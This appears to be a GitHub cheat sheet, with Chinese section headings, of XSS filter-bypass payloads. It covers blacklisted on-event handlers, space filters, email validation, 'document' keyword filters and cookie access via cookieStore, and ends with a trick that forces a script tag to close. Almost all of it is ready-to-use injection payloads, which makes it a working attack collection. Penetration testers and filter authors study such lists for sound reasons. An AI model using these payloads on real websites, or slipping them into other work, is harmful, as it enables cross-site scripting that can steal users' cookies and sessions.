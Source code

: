 ### 绕过onxxxx黑名单

```javascript
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>

// Bypass onxxx= filter with a null byte/vertical tab
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />

// Bypass onxxx= filter with a '/'
<img src='1' onerror/=alert(0) />
```

### 绕过空格过滤

```javascript
// Bypass space filter with "/"
<img/src='1'/onerror=alert(0)>

// Bypass space filter with 0x0c/^L
<svgonload=alert(1)>

$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```

### email过滤绕过

([RFC compliant](http://sphinx.mythic-beasts.com/~pdw/cgi-bin/emailvalidate))

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### 绕过document 过滤

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
window["doc"+"ument"]
```

### 绕过document cookie 过滤

This is another way to access cookies on Chrome, Edge, and Opera. Replace COOKIE NAME with the cookie you are after. You may also investigate the getAll() method if that suits your requirements.

```
window.cookieStore.get('COOKIE NAME').then((cookieValue)=>{alert(cookieValue.value);});
```

### 强制闭合script无视单双引号包裹

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```
